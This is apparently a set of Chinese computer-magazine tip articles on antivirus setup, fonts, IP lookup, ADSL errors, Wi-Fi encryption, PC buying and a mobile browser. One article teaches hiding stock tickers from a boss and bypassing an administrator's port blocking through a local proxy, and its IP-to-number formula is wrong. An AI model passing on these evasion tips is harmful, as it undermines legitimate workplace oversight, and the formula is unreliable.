> > **小提示：多个杀毒软件可以共存吗？**
可以！当安装“360杀毒”后，软件检测到有其他杀毒软件时，“360杀毒”会暂时不开启防护功能，以免发生冲突。这时，你可以选择先卸载另外的杀毒软件后再开启，也可以让2个杀毒软件同时开启。开启的方法很简单，只要打开软件主界面，在“实时防护”标签下点击“开启防护”按钮就可以了，如果弹出窗口提示检测到其他杀毒软件，你可以点击窗口中的“强制开启”按钮。开启防护后设置它的防护级别为“基本防护”就可以了（见图2）。



### 提高杀毒速度

做好上面的设置后，记得一定要将“360杀毒”在线升级到最新的病毒库状态。只要点击主界面上的“产品升级”标签就会自动进行升级了，无需输入序列号、激活码等信息（见图3）。
如果你之前使用的其他杀毒软件过期了几天后，你才安装了“360杀毒”的话，那么在升级完“360杀毒”病毒库后，建议全盘杀一次毒。但做过全盘杀毒的人都知道，这样很费时间，并且在杀毒时，系统速度非常慢，基本做不了其他的事情，只能百无聊赖地干等。没关系，“360杀毒”中的一个简单设置，就可以大大缩短你全盘杀毒的时间。
如果你的电脑中存有大量的图片文件、Office文档文件，而这些文件又是不容易被感染病毒的，可以把这些文件添加到软件的“白名单”中，让“360杀毒”对它们进行“免检”处理，这样就能提高全盘杀毒的速度。在“360杀毒”主界面右上角点击“设置”按钮，在弹出的设置窗口中点击左侧的“白名单”标签，点击下面的“添加”按钮，在弹出的窗口中就可以输入免检文件的扩展名了，如JPG、BMP或者DOC等（见图4）。





> > **小提示：如何给指定文件设置“免检”？**
我们还可以在“白名单设置”窗口中给指定的目录和文件设置“免检”，只要点击上面的“添加文件”或者“添加目录”按钮，再选择相应的文件夹或文件就可以了。

> > **小提示：无需设置，代理更新自动查**
当我们通过教育网上网的时候，有时候上网速度会不稳定，这就需要给浏览器设置代理服务器，这样才可以正常浏览网页。如果此时需要对杀毒软件进行更新的话，那估计就不能正常完成了。其实“360杀毒”可以轻松应付上面的这种情况，它会自动检测到浏览器的代理服务器设置，并添加应用到自己的使用中，这样它就可以进行联网升级操作了。

### 预防“问题”文件

对于电脑中已有的文件，在经过全盘查杀后，我们比较放心了，可对于别人通过QQ、MSN、Email等传过来的文件，还得先让“360杀毒”来把把关。打开“360杀毒”的设置窗口，在“实时防护设置”标签下把右侧的“即时扫描QQ/MSN接收的文件”选中，有必要的话也把下面的“即时扫描插入的U盘”选中，再点击“确定”按钮，这样就不用担心接收的文件有病毒了（见图5）。
对于使用下载软件下载的文件，我们也可以让“360杀毒”先把关，不过要稍微设置一下，下面就以迅雷为例来介绍如何设置。打开迅雷，点击菜单“工具→配置”，在弹出的“配置面板”窗口中点击“下载安全”标签，把右侧的“下载后自动杀毒”选中，接着点击“浏览”按钮，选择当初将“360杀毒”安装到的系统的那个目录下的“360sd.exe”文件，然后点击“确定”按钮，以后迅雷下载好文件后就会自动调用“360杀毒”来进行查杀了（见图6）。
(江苏/云端漫步)



## “打扮”电脑世界的形象代言人

在电脑中显示出来的文字以什么样的姿态显示出来，这是由字体来决定的了，因此，字体在一定程度上就成了电脑世界的形象代言人。不过，字体也是有学问的！

## 文档换个家水土不服——都是缺少字体惹的祸

不少朋友可能碰到过自感相当蹊跷的事：在朋友的电脑中显示得很好的文档，到了自己的电脑中却变得很难看，甚至格式都变动了，有时还会出现乱码现象。这主要是缺少字体惹的祸，有以下两种解决方案：

### 方法一：捆绑字体

在Word中，在编辑好文档后，假如文档中含有一些特殊的字体，就可以通过下面的方法将这些特殊字体与文档捆绑到一起来，在其他任何一台电脑中打开就不会出现因字体缺失而出现布局更改或是乱码了（Word2007为例）。

单击Word窗口中左上角的“Office按钮”，选择“选项”，在打开的窗口中选择“保存”，勾选右侧窗口中的“将字体嵌入文件”项（见图1）。







### 方法二：直接安装目标字体

在制作文档的电脑中查看到底使用了哪些字体，查看清楚后直接在目标电脑中下载安装该字体即可解决问题。如何在网上快速找到想要的字体呢？这也是一门学问！

要想在网上搜索字体，只要在浏览器中打开 http://www.zhaozi.cn/，直接输入字体名称即可搜索到目标字体了。

搜索到目标字体后，直接点击预览项后面的“下载”。在打开的下载页面中直接点击采用快车下载链接或是迅雷下载链接进行下载即可。

### 小技巧：

假如系统中没有安装快车或迅雷下载工具，可以右击下载链接并复制相应的专用下载链接，然后再到 http://99uxi.com/xl.php 将专用下载链接转换为普通下载链接直接使用浏览器自带下载工具进行下载。此外，该网站只提供非商业免费字体的直接下载，一些商业字体并不提供下载，不过可以点击页面中的“互联网上更多可以下载该字体的地址”链接打开搜索页面，在这个搜索结果页面中就能找到可下载的链接。

而安装字体方法很简单，在Windows 7系统中直接右击字体文件并选择“安装”即可将其安装到系统中了（见图2）。如果使用的是Windows XP系统，则需要手工打开C:\Windows\Fonts目录，然后单击菜单“文件→安装新字体”，在打开的窗口中找到字体文件即可进行安装了（见图3）。

## 系统也可更换形象代言人

在诸如Word、Excel等这类软件中指定选中文字的字体很简单，但是要想将系统中的窗口、桌面图标等字体更换为自己喜欢的字体，如何实现呢？其实，方法也很简单：

右击桌面并选择“个性化”，选择“窗口颜色”，在打开的窗口中即可进行设置了（见图4）。



### 小提示：

如果使用的是Windows XP系统，右击桌面并选择“属性”，在打开的窗口中选择“外观”选项卡，单击“高级”按钮，在打开的窗口中按上述方法进行设置即可。

## 公文、正式文书

这类文件的内容部分一般使用宋体或是楷体，标题部分也使用这两种字体中的一种，只是字号比内容部分大，通常为二号宋体并加黑，内容部分则使用小四宋体。

## 商务文件

商务文件中对字体的要求与国家政府公文相比要宽松些，例如标题可以使用黑体、宋体、隶书等，正文部分则可以使用宋体、细圆等，而附注部分又可以使用仿宋、小标等字体。

(文/呆瓜)

## 手机、IP，统统知道你在哪……

别人给我手机打电话，就能显示这号码来自哪里了！我的QQ可以显示出你所在的位置！如此强大的功能，你知道这是源于何处吗？

就像知道身份证号，就能辨别男女、户口所在地一样，其实IP、手机这些看似无关的数字背后是一个庞大的规则数据库文件。

比如13X是指手机运营商，而再往后的四位就是按地区（通常是市级）进行划分，当然一个地区会有几个或是几十个号段，最后四位就是随你选择了。像1361102XXXX就是指北京市的移动手机号。依靠网友提供、收集，或是从电信运营商手中购买的数据，组建成的庞大数据库，就是这些数据背后的秘密。

IP地址的划分方式与手机相似，比如10.0.0.1到10.10.0.255是XX市的，那么在这中间的就都是该市的IP，然后再通过各种渠道对这些数据二次加工，这样通过查询这个数据库，就可以了解到该市知名网吧、学校、公司的IP地址了。

如果你有一天接触到一个IP数据库，你可能会发现保存的数据并非是111.111.111.111一样的IP地址，而是“3682598912,3682599432,广东省中山市电信ADSL”的形式，采用这种数据保存方式为的是更好地计算，IP地址如果是A.B.C.D，那么数据的值可以为A×255×255×255+B×255×255+C×255+D。

这回你搞清楚了吗？

### 你知道吗？

使用10086可以电话查询手机的归属地，在没有电脑的时候还是可以使用的。

(cd)





## 被监管下的自由——又到“抄底”好时机

随着创业板的上市，股市可能即将迎来春天。但现在，很多单位、企业都限制员工上班时间炒股，甚至连看股市行情的软件也进行了一一的封杀，很多股民朋友为此而懊恼不已。其实，只要掌握点小诀窍，被监管的办公室也有自由的小天地。

### 看行情，不必非得用股票软件

通常，股民朋友们看股市行情都是安装自己惯用的行情软件，例如大智慧、同花顺等，而一般公司在限制时正是直接对这类软件的常用通讯端口进行封锁而实现监管的。如果只是看行情（不需要交易），很多网站就可以看了：例如谷歌财经（在浏览器中打开 http://www.google.cn/finance 页面），就可以看到当前的大盘分时图、查询个股行情等操作了（见图1）。



类似的还有很多网站提供实时看行情：
- 新浪财经股票频道（地址 http://finance.sina.com.cn/stock/index.shtml）
- 搜狐财经（地址 http://business.sohu.com/）
- 腾讯财经（地址 http://finance.qq.com/）

### 老板眼皮底下实时看行情

有些时候并不是因为监管严而无法运行行情软件，更多的则是老板犀利的眼光。如果单独开行情软件，无疑是知法犯法，可能会罪加一等。这种情况下，直接将行情放到桌面背景中，往往可以躲开老板犀利的眼光：从 http://dl.pconline.com.cn/html_2/1/131/id=45147&pn=0&linkPage=1.html 下载这款名为“STK股票小智慧”的工具，运行后它会自动在桌面背景上添加一个行情面板，默认提供上证指数及深证成指。为了减少被别人察觉的风险，将背景设置为透明效果：右击行情面板并选择“背景透明”项。添加个股，要想将自己的股票添加进来，只要单击面板中的“+”按钮并选择“设置”，在打开的窗口中即可添加个股（见图2）。



为了更安全起见，还要牢记老板键(Alt+S)，并且在图3的设置中选择“我的STK”选项卡，勾选“热键隐藏窗口同时隐藏托盘图标”项（见图3）。



### 对付办公室的监管就需要道高一尺、魔高一丈

如果办公室中只是网管进行了监管，导致股票行情、交易软件均无法运行，那是因为软件的网络端口被屏蔽所致。其实，现在很多股票软件都提供了绿色通道，专门对付办公室的封堵。只要在Google或是百度搜索框中输入类似“绿色通道 同花顺”（将同花顺换成惯用行情软件的名称）进行搜索，在搜索结果页面中便可找到该款行情软件的绿色通道及方案了。先从 http://www.10jqka.com.cn/modules.php?name=Downloads&d_op=getit&id=34 下载并运行这个绿色通道小工具，运行后它会自动缩小在系统托盘区。接下来只要对行情软件、交易软件进行代理设置即可，代理服务器设置为HTTP方式，代理服务器IP地址为当前系统的因特网IP地址，端口为80（见图4）。



同理，对于交易软件，也启用代理服务器并按照上述方法设置代理服务器地址、端口即可。每款行情、交易软件的绿色通道的使用方法均类似，主要就是在本地架设代理服务器绕开网管对行情软件的端口的封锁，从而达到畅游股市的目的。

### 移花接木，也要骗过雨林驱动工具

在第17期《移花接木：“贴牌”巧骗雨林驱动工具》一文中，讲解了通过在oeminfo.ini添加“雨林木风”，骗过雨林木风的驱动程序选择工具从而达到一键安装驱动的目的。笔者兼着试用软件的原则，针对俺的正版系统进行了试验，但是无论怎么修改就是无法实现，总是出现与17期原文同样的错误提示。即使是在预先安装了雨林木风的机子上都不能成功。

开始我怀疑是不是原文中的方法有错误，那为什么就是无法安装呢？再仔细分析才发现，笔者所采用的驱动程序选择工具取自雨林木风的YN9.9版，而试验用的机子上原来安装的是YN9.6版，在新的9.9版中驱动程序选择工具改变了验证方式。其实，我们只需要在oeminfo.ini信息配置文件的[Support Information]下加入YLMF（不区分大小写）4个字母即可。可以修改成下面的格式：

```
[Support Information]
Line1=YLMF
或者直接在Line1=一行的下面再建一个Line2=YLMF，这样驱动程序选择工具在运行的时候会检测OEM信息配置文件也包括YLMF，就能够实现一键安装驱动了。
```

最后，提醒大家用安装操作系统时，尤其是选择网上流传的Ghost版的安装文件时，要特别慎重，小心一些病毒和木马悄悄地找上门来。光是那莫名其妙地修改IE上网主页就足够让你闹心的了。

小编点评：原文的确是忽略了一些细节，电脑就是这么神奇的东西，很多“想当然”的技巧只要条件有一点不符合就会出现问题。“想当然”这版的责任编辑也会因“渎职罪”受到一点点小惩罚……（河北/雨蝉）

## 最近的文档记录：我的地盘我做主

## 告别ADSL MODEM错误678

ADSL MODEM平时很乖，一犯毛病就不知如何下手，赶快恶补一下小知识吧。

### 看灯辨病

古有悬丝诊脉，今有看灯辨病。要想解决ADSL MODEM (ADSL调制解调器：对电话信号中的高频部分进行处理，实现在电话线上宽带上网)常见问题，先来熟悉那一排指示灯是什么意思。

| Power | 电源灯 |
| --- | --- |
| Test | 自检灯 |
| DATA | 数据灯 |
| LAN (PC) | 局域网灯 |
| Link | 同步灯 |

Test指示灯在刚打开ADSL MODEM时会闪烁，等自检完成后会熄灭，而Link指示灯在刚启动ADSL MODEM时会闪烁，表示它正在与电信局端进行同步，成功之后会常亮，DATA指示灯在下载、上传网络使用频繁时会一直闪烁。LAN (PC)指示灯常亮表示ADSL MODEM与电脑之间连接正常。

还打算和朋友在网上斗地主，聊QQ呢，结果不知出什么问题了，拨号总显示错误678，有时候就能连接上，有时只好放弃，这要是有点急事，发个邮件什么的，总不能干抓狂吧。仔细检查，发现ADSL上面的指示灯亮得有点和平时不一样，原来是LAN (PC)灯不亮了，这可怎么办？有了上面的对照表，我们不难发现，很可能是电脑与MODEM之间的网线松动，于是搬出机箱，看后背板的网卡上面小指示灯，没有亮！果然是网线松了，重新插牢固，这时ADSL MODEM上的LAN (PC)灯开始常亮，尝试拨号，本以为解决了问题，结果还是显示错误678，抓狂中。

静下心来继续排查问题，这时才发现，平时一直常亮的Link灯总是快闪一会，然后慢闪一会，原来Link灯是显示ADSL MODEM与电信局端同步的状态，既然电脑到ADSL MODEM这段连接没问题了，把疑点转移到ADSL MODEM到电话线插座这一段，把分线盒上面的电话线拔下来重新插上，又把墙边电话线插座重新拔插一次，再次尝试拨号，也许是锲而不舍的精神不够强悍，没有感动这根电话线，依然显示678。

无奈之下找出良师益友《电脑爱好者》，翻寻多篇文章后终于解决了，原来系统错误也会导致拨号错误678，只要先关闭ADSL MODEM，打开控制面板下的网络选项卡，右键单击网卡把它禁用，重启电脑之后启用网卡，这时再打开ADSL MODEM拨号就行啦。

### 小提示：

- 在ADSL MODEM自检错误时可以尝试复位，用笔尖捅复位键保持几秒钟再重启，不过复位之后登录ADSL MODEM的用户名、密码等设置会被清空。
- 有时不一定是自己这边线路出问题，如果都排查正常，打电话问问电信局，那边的主机出现故障也会导致错误代码678的出现，偶尔能连上，但是定期掉线也要询问电信局。
- 错误代码691是ADSL账号密码错误，首先想是不是账号密码真的输入错误，或是大小写没有注意，尤其是账号前与后的空格，很难分辨出来，另外欠费也会出现问题，这就要靠给电信局打电话解决了。

(文/一路向北)

## “安全模式”就安全？

估计“老盖”是未卜先知，早就想到他的Windows是不安全的，于是特意整了个“安全模式”让我们用着，那么这东西和原来的系统有何不同呢？

- 大部分的启动项、服务都不会再随系统启动，只用系统基本的服务和启动项。
- 多数驱动不会加载，比如显卡的高级驱动、网卡（非网络模式）。
- 找出故障源，如果在系统里不能上网，但在带网络连接的安全模式下可以上，则说明是系统中的程序或服务影响网络的正常。
- 有时在Windows正常模式下不能安装的硬件驱动，可以尝试在安全模式下安装，说不定会有意外的惊喜。
- 由于安装错误驱动引起的无法进入系统的故障，可以在安全模式下卸载驱动后解决。

### 安全模式能干的N件事

“老盖”既然提供了安全模式，自然就有需要用到它的时候：

- 遇到无法删除的文件时，到安全模式下通常可以一删了之！
- 电脑因为丢失文件出现错误时，可以在安全模式下使用“系统还原”，将系统还原。
- 有很多病毒在安全模式下就会失效，所以这里是查杀病毒的好地方。当然杀毒软件需要你手动运行一下。
- 如果网管对你的电脑系统做了一些限制，这时进入安全模式，通常这些限制都会消失。

### 安全模式其实不安全

如果是早些年安全模式还真是病毒木马的噩梦之境，在这里面是100%的安全，不过随着越来越多的高手对Windows研究越来越深，现在的病毒也开始玩阴险：“低档的木马病毒”它们认为安全模式很强大，于是当你试图按下F8进入安全模式时，会发现它失灵了。至于那入“潜入细无声”的“高档的木马病毒”，会大大方方地任你进入安全模式，因为它还在后台“安全运行”着……这也就是为什么现在很多高手都感慨病毒难杀！不如重装系统来得省事的原因之一……

(cd)

## 找回WIN7的镜子

摄像头的方便之处不仅体现在平时网上视频，还能当镜子看，录一些简单的视频也不在话下。以前用Windows XP系统时，很方便就可以查看，如今换了Windows 7，突然找不到了。

### 摄像头哪里跑

在Windows XP系统下，双击打开我的电脑，在蓝牙下面有个扫描仪和照相机选项卡，双击就可以看到摄像头，坐在电脑前轻松点几下，比从包里掏镜子快多了。换装Windows 7后找了半天也不见摄像头的踪影，莫非消失不成？

其实，无论是本本自带的摄像头，还是台式机后买来的USB接口摄像头，都不会在Windows 7下失效，微软怕被再次称为“垄断”，没有提供摄像头预览功能，不过我们还是可以把它找出来。当然，部分摄像头因为驱动不兼容，导致不能正常使用，可以试试在Windows 7安装时拔下摄像头，等系统安装完毕再连接上，让系统从网上搜索到合适的驱动。

点击开始，打开设备和打印机选项卡，找到摄像头的图标，右键选择创建快捷方式，然后把创建到桌面上的快捷方式复制到系统盘:\Users\本机用户名\AppData\Roaming\Microsoft\Windows\Network Shortcuts目录下，因为系统有文件保护，是不能直接打开的，不过我们可以按照下面的方法实现，比如系统是在C盘，用户名是abc，打开我的电脑，找到地址栏，直接复制目录的地址C:\Users\abc\AppData\Roaming\Microsoft\Windows\Network Shortcuts就可以打开，这样就可以在我的电脑下看到摄像头的图标了，预览功能要借助第三方软件来实现。微软出品的AMCap，300多KB的小软件就能完成摄像头预览的任务。下载地址：http://www.newhua.com/soft/28852.htm。

套用刚才的方法，安装完成之后把AMCap的快捷方式复制到刚才的目录下，这样在我的电脑下面又能方便地预览摄像头，没事的时候可以继续照镜子了。

(文/CT)

## 为Windows XP增加Vista的3D切换

在微软的操作系统中，一向都是只有Vista的家庭高级版以上版本才有3D桌面程序，至于XP也只能望“3D”而叹息了，不过没关系，就算没有Vista，咱Windows XP也能玩一回3D桌面，体验3D桌面给我们带来的方便与绚丽。

首先从 http://work.newhua.com/cfan/200922/topdesk.rar 下载topdesk，安装后，双击图标使其运行，右击右下角的topdesk图标，选择快捷键选项，并重新设置一下，以后只要你一按设置的快捷键就可以显示如Vista一样的3D桌面了，是不是很方便呢？

(No快乐天使★)

## EFI：阻挡“Windows 7大帝”的神秘“系统”

### BIOS很旧很差劲

如今，Windows已经到7，连IE都到8了，不过每次开机按下DEL后看见的仍然是一成不变的蓝底白字，这玩意完全可以做现在很多电脑高手的“大哥”。尽管硬件换了一代一代，但就为了适应这老旧的BIOS，Intel开发平台时硬是为了兼容这玩意牺牲了一定的性能。这就像很多高人的比喻：保时捷新一代的全自动跑车被人生套上去一个蹩脚的挂档器。

### EFI才露尖尖角

做为代替BIOS的产物，EFI更像是个和Windows一样的操作系统，只是它要抵挡很多，功能也极少，但最起码你终于可以扔了键盘，完全使用鼠标轻松完成界面控制，修改选项设定了，EFI对你来说，最大的好处是不管你安装的是Windows，还是Linux，一套驱动就可以摆平，甚至还可以直接在EFI系统下通过网络自动升级驱动，而不用在每次安装Windows后一遍又一遍的安装驱动程序。

其实EFI早在2005年就出现了，迫使它现在不得不受我们重视的原因就是硬盘容量正在以T为单位无限扩大，要知道目前传统的分区结构（就是总引起无法进入系统，分区出错问题的MBR）最大只支持2T的硬盘，而EFI带来了全新的GPT（其实BIOS也能支持GPT，但引导功能无法实现），支持的硬盘容量也达到了18EB(1EB=1024PB=1048576TB)的硬盘，真正做到了容量烦恼不再有！

### 神秘的 100MB 空间

安装过Windows 7的朋友应该知道，如果让系统自己分区，总会保留100MB的空间，这神秘空间不仅无法在系统中看到，而且怎么分，怎么有……

其实它是Windows 7特意给EFI留下的空间。要知道EFI功能是强大的，采用老旧的BIOS芯片保存方式是不可能的，所以EFI是需要安装在硬盘上的，于是就有了神秘的100MB。

随着Windows 7对EFI的全面支持，所以EFI的普及——快了！

(BUFF)## 危险！“我的E家”大门常打开 小心邻居常蹭网

> 编辑大人，快救救我吧！我家用的是“电信E家”套餐，无线路由，现在每天晚上上网速度很慢，问了高手说是无线网络没加密，被邻居偷用了，把网络加密就好了。我按照说明书看了一下，都是什么WEP、WPA之类不懂的英文词，这些都什么意思呀！
（北京/战不停）

你的邻居定是看了2009年12期的《北京浮生记——一个IT民工“凿壁偷网”的故事》。现在的无线网别说不加密，就算加了密，如果选错了项，那相当于没有。对于菜鸟来说，WEP、WPA的确如同天书。

## WEP 就是被无视的对象

“战不停”看到的是无线网络的加密方式，其中尤其要提到的是WEP已经算是一种很容易就被别人破解的加密方式了，不建议大家再使用。如图1所示的选项具体含义如表。

| 选项 | 说明 |
| :--- | :--- |
| None/Disable | 大多数无线路由的默认选项，好在越来越少的菜鸟都知道选这项就是无条件随便使用网络。你现在也只能在星巴克、麦当劳这种地方见到使用这种设置的无线网络了 |
| Open(开放式) | 几乎已经消失的选项，之所以提到是由于它可以和下面的加密方式组合使用 |
| WEP | 传说中最容易被破解的模式，你们邻居要是给你设置了这种模式，还美其名曰已经加密了，那你要小心了，估计他要蹭网，其实这种模式早已经被破解，也是最容易破解的方式，直接无视它吧！ |
另外，小编以前在永和大王就遇到过一个无线网，明明可以连上，但是没法打开任何网页，其实这就是WEP和Open搭配的结果，随便你连，但传数据的时候就要密码 |
| WPA/WPA2 | 现在最流行的加密方式，菜鸟首选（下文还会详细介绍） |
| Shared Key(共享式) | 和Open不同的是，在连接无线路由之前就需要先验证，否则无法连接。
只是几乎没有路由器单独提供这种模式了，就是因为它太容易破解。以前Shared Key和WEP一起使用，破解了Shared Key，就很容易破解WEP了。 |
| MAC Access Control List | 利用MAC地址绑定来加密。只是MAC地址很容易造假，所以这种方式也是让其他设备误连而已 |



## 到底谁是最安全的加密方式

在Vista中，你会看到如图2所示的选项，这里有你最需要了解的WPA、WPA2、TKIP和AES四项。

简单地讲目前无线加密方式的关系是：WEP→WPA→WPA2，WEP过于脆弱，于是出现了临时过渡替代品WPA，最后WPA2出现，才算基本解决了无线加密安全问题。

TKIP和AES是高手们常用的两种算法，最早WPA只能使用TKIP，WPA2使用AES，为了增加兼容性目前WPA和WPA2都可以使用TKIP和AES了。除了在安全性上AES优于TKIP外，使用TKIP加密，还会损失大约30%的网速。



如果把你家邻居蹭网形容成进你家门，那么WEP就是木栅栏门，WPA升级为了实木门，WPA2为全钢防盗门。其中WEP是在门里有个插销，但由于是木栅栏，从门外就很容易打开了；TKIP是需要转十圈才能打开的普通锁；AES则是高级的电子指纹锁。

有了门有了锁，就要考虑“钥匙”了。为了安全WPA原来的设计是有一台专门的服务器来充当“钥匙”的角色，对于个人用户来说这明显不靠谱，还是用密码做“钥匙”来得更简单。如图2所示中的“WPA-企业/WPA2-企业”和“WPA-个人/WPA2-个人”的区别就是服务器或密码作为“钥匙”的区别。

现在，“战不停”快把加密模式设置为“WPA2-个人-AES”吧！

## 小提示：WDS不是加密方式

别看都是W开头，但WDS（Wireless Distribution System）不是加密方式，当无线信号需要传输较远距离，使用一台无线路由传输距离不足时，就可以通过多台支持WDS的无线路由来完成，实际上这些WDS无线路由起到了桥梁的作用。

## 火速链接：

对于了解所有加密方式的高手，2009年20期的《软硬兼施，蹭网者请走开》明显更适合你，文章首次透露了几乎完美的网络防盗方式。

## 晋级高手宝典 DIY不再难

虽然目前DIY市场被笔记本、一体机抢夺了大半江山，却不得不说DIY的门槛变得越来越低，就连过去复杂的超频，经过厂商优化BIOS之后，一键超频不再困难，DDR2内存持续涨价并没有挡住大家对DIY装机的热情，AMD双核5000开核变四核，LCD显示器大幅降价都在猛烈地刺激着DIY市场，很多朋友跃跃欲试，想自己动手装机。然而面对卖场中的鱼龙混杂，DIY新手难免会犯些错误，不学习些生存技巧很难独自应对。

## 卖场求生之道一 整合主板不是万能的

“大哥，看看这块整合主板，是XX的高性能显示芯片，玩大型3D游戏保证流畅，才499元！”

没错，现在的JS都会用魔兽世界去说事，整合主板的显卡去跑魔兽世界不会卡，是因为游戏本身优化得好，兼容高中低档显卡，可是想要开高特效，远视距在战场里酣畅淋漓地大战，非独立显卡莫属了。

装机预算不够，是买独立显卡搭配低价主板，还是买块整合主板用？关于整合平台和独显平台的对比，且不说性能差异，多数人会觉得独立显卡占掉相当一部分的预算，如果搭配独立显卡，那么其他配件只能缩水，事实上，对于游戏玩家来说，一款便宜的主板加上中低端的独立显卡无疑是最合理的选择。即便是性能最强悍的整合主板，它的性能也不及中低端独立显卡的一半，如果不是办公、上网来用，并不建议选购整合主板，不要等到玩游戏画面卡到十分头晕的时候，才想起来为什么没有多花200元上独立显卡。

## 卖场求生之道二 配件选购要均衡

“你这个500GB硬盘太大了，250GB就够用还便宜，我给你改下装机单。”

500GB的硬盘价格与250GB价格仅仅相差几十元，按性价比来说500GB硬盘每GB成本更低廉，在高清电影盛行的今天，大容量硬盘无疑是首选。目前250GB硬盘属于存货处理，JS想尽办法出货。

配件头重脚轻是现在DIY新手比较普遍的问题，平时谈论电脑时，多数人关注CPU是双核的还是四核的？甚至有的朋友花大钱买四核CPU，然而只搭配1GB内存在使用，平时也只是上上网，看电影，浪费了不少性能。PC是一个整体，搭配均衡才能发挥最佳性能，CPU性能要和主板、内存、显卡、硬盘的性能相匹配，才会没有瓶颈。

## 卖场求生之道三 二三线厂商产品也有物美价廉

“再加100块钱，给你换块XX厂的主板，单子上是二线厂的，特别容易坏。”

一线厂商的产品固然品质优异，可是价格在那里摆着，JS推荐这类产品获利也比较高，如果不是超频玩家，追求极限性能，建议选用价廉质量也不错的二线厂产品。事实上，每个品牌为了适合不同市场需求，都会有高中低系列之分，各个厂商之间的产品并没有多大的性能差异，对于使用同一款芯片组的主板而言，其性能差距都是微乎其微的。DIY的宗旨就是从实际需求的角度出发，理智地消费，适合自己的最重要，不提倡一味地追求名牌效应。

## 卖场求生之道四 勿听信升级假说

“这款主板支持的CPU型号多，以后升级肯定容易，就是要多花点钱，我给你拿货去。”

电脑的升级空间大小主要说的就是主板支持CPU、内存的种类，在以前电脑升级换代不像如今这么频繁，经典的478接口通吃很多CPU，然而现在DIY这一点已经不是那么重要了，为什么呢？以Intel为例，LGA775是目前的主流，但是全新的LGA1366、LGA1160接口已经到来，高速地更新换代，CPU的通用性会越来越差，一两年后是个什么样子我们谁也不知道，可以肯定的是，那时候电脑配件的性能会更强，价格会更便宜，所以现在过分考虑升级空间，多花钱反而会得不偿失。

DIY一词的含金量已大不如从前，新手去IT专业网站潜水学习一段时间后也能自己动手去装机，卖场猫腻多多，尽量在身边高手的指导下去装机，慢慢锻炼自己，在卖场中与JS周旋，购买到价格和质量都称心如意的配件，这种乐趣是无法用语言形容的。

> (文/CT)

## 手机上网，你也需要功能性“饮料”

根据2009年中国互联网络信息中心(CNNIC)的报告显示，截至2009年6月底，中国手机网民规模为1.55亿人，占整体网民的46%。这证明，随着手机流量包月套餐越来越便宜，手机这种随时随地的上网方式，已经被越来越多的人接受了。可是问题来了，大多数手机内置的浏览器功能很少，浏览一些图文并茂的Web网页时速度会很慢，怎么办呢？不如给手机加点功能性“饮料”，让它上网速度跑更快。在手机中安装一款名叫UCWEB的软件，不仅可以大大加快浏览速度，还强大到可以发邮件、看电视，真是一点不比用电脑上网差！不信，你试试？

在展示UCWEB的强大功能前，还是要老套地先把UCWEB下载并安装。登录http://www.uc.cn/product.shtml，选择自己的手机品牌和型号后，即可通过网站提供的3种方式(电脑下载、手机上网下载和短信下载)来下载了。如果想省钱，就选电脑下载；如果怕麻烦，就选短信下载。下载后在手机里运行安装软件就会自动进行安装了(见图1)。



小提示：

即使列表里面没有你的手机型号，只要你的手机支持Java功能，就可以下载一个通用版来使用。通用版下载地址：http://www.uc.cn/product_tongyong.shtml。

## 提速省钱是王道

CNNIC的报告显示，有5成以上的手机网民表示，“上网速度太慢”是影响人们选择手机上网最重要的因素，而“上网资费太贵”则位列第二。但如果你用上了UCWEB，就不用担心这两点了。因为它有个“WAP压缩中转”的功能，可以把Web网站里的图片等内容进行压缩显示，最高可以节省80%的流量。这样不仅可以使浏览速度快很多，还节省了流量，就等于省了钱！这个功能默认是关闭的，你可以在“UCWEB浏览器”左下角打开“菜单→设置→系统设置”，在显示的界面中把“浏览器设置”下的“WAP压缩中转”选中，再点击“菜单→保存”按钮即可。这样一来，浏览Web网页就可以快很多了(见图2)。



除了上面的基本设置外，还有很多办法帮你尽可能地节省流量并提高浏览速度：

- 选中“UC浏览器→设置”下的“WEB加速”，并将“预读类型”选为“文字”；
- 将“显示设置”中的“图片质量”设为“低彩”或“无图”，将“GIF动画显示”设置成“关闭”模式，并将“预读”功能关闭。记住，以上设置完成之后记得选择“保存配置”；
- 对于一些自己经常浏览的网站或者页面尽量保存为书签，这样就可以直接进入自己所要浏览的网页，避免了加载网站首页及前几级页面的流量；
- 论坛进行回帖时，如果没有特别必要，回复后尽量不要再回到原先的帖子，以避免再加载一遍而产生流量；
- 打开新的链接时，尽量多用“新窗口打开”。通过UCWEB上网最多可以同时打开12个不同的页面。因此通过“新窗口打开”这样的方式，不但能同时打开多个网页方便浏览，而且还可以避免在看完一页后退时产生的一些不必要的流量；
- 通过手机下载软件之前，先看一下网站的介绍及用户的回复，确定是自己需要的软件，并且安全、实用，再开始下载，免得浪费流量。此外，一些大文件建议到电脑端下载；
- 用手机上传资源时，尽量先对文件的格式进行压缩然后再上传。例如上传照片时，可以先把图片压缩到10KB左右再上传。但如果你上传的图片有特殊用途，一定要高品质的，那你可以把这些图片做成压缩包的格式再进行上传。

小提示：

本文示范的是在Windows Mobile平台上使用UCWEB，诺基亚、三星等基于其他平台的手机在使用中会发生菜单设置不尽相同的情况。比如“WAP压缩中转”功能在Windows Mobile平台上是在“浏览器设置”下，而在诺基亚的S60平台上则在“高级设置”下。虽然有些许不同，但功能大致都是这些，你只需要在“菜单”的其他子项里找一下就可以找到这些功能。为了更好地省钱，UCWEB中还有专门统计流量的工具。在“UCWEB浏览器”中选择左下角的“菜单→帮助→流量统计”。另外，诺基亚手机的用户还可以在UCWEB官网上下载“UC桌面”这个插件，其中的流量统计工具显示的信息更为详细。

## 酷站导航轻松找

大家用手机上网时，最常用到的就是聊天功能。这方面已经在今年第6期杂志中介过了，这里就不再赘述了。除此之外，用手机搜索和在线收听/下载音乐也是很普遍的两大应用。不少人在使用手机上网时，都不知道有哪些网站可以上，只能上一些自己熟悉的网站。现在用UCWEB就方便多了，你不仅可以通过它登录百度、谷歌等网页进行搜索，而且在它的“手机酷站”里面收藏了一些不错的网站，并按分类显示，方便我们根据自己的需求来选择门类登录，非常直接、方便(见图3)。





此外，在UCWEB的导航菜单中还有“生活百事通”板块，可以查看到天气预报、彩票查询、公交、机票等内容。其中也有搜索框，可以搜索生活、餐饮类的资讯(见图4)。其实，UCWEB的各类菜单中，都有搜索框的身影，比如“游戏中心”中有可以搜游戏的搜索框，“视频导航”中有搜视频的搜索框，“音乐频道”中有搜索MP3的搜索框。



喜欢音乐的朋友，在UCWEB的导航菜单中的音乐频道可以在线欣赏和下载到最新最热门的歌曲，而且还可以下载一些有趣的个性铃声，只要将光标指示在你想要的歌曲上，按确认键就可以了(见图5)。

小提示：

